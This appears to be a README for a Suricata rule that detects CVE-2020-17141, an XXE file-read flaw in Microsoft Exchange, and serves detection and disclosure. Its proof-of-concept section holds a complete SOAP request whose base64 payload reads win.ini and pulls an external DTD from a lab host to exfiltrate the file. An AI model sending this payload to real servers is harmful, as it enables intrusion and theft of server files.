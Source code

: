 ## Overview
CVE-2020-17141 is an XXE Injection vulnerability that allows attackers to read any file on the system running vulnerable versions of Microsoft Exchange Server.

It targets the RouteComplaint SOAP request with the base64-encoded payload.

In this Suricata rule, I try to base64-decode the payload, then search the strings "<!DOCTYPE" and "SYSTEM", which are the keywords of an XXE Injection attack.

## Proof of Concept
```
POST /ews/Exchange.asmx HTTP/1.1
Host: example.com
Content-type: text/xml; charset=utf-8
Content-Length: 867

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types">
<soap:Header>
<t:RequestServerVersion Version="Exchange2010_SP2"></t:RequestServerVersion>
</soap:Header>
<soap:Body>
<m:RouteComplaint MessageDisposition="SaveOnly">
<m:Data>PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0idXRmLTgiPz4KPCFET0NUWVBFIHJvb3QgWwogPCFFTlRJVFkgJSBzdGFydCAiPCFbQ0RBVEFbIj4KIDwhRU5USVRZICUgc3R1ZmYgU1lTVEVNICJmaWxlOi8vL0M6L1dpbmRvd3Mvd2luLmluaSI+CjwhRU5USVRZICUgZW5kICJdXT4iPgo8IUVOVElUWSAlIGR0ZCBTWVNURU0gImh0dHA6Ly8xMC4wLjIuMTU6OTA5MC9wb2MuZHRkIj4KJWR0ZDsKXT4=</m:Data>
</m:RouteComplaint>
</soap:Body>
</soap:Envelope>
```

## References
* https://srcincite.io/advisories/src-2020-0031/
* https://srcincite.io/pocs/cve-2020-17141.py.txt
* https://portal.msrc.microsoft.com/security-guidance/advisory/CVE-2020-17141
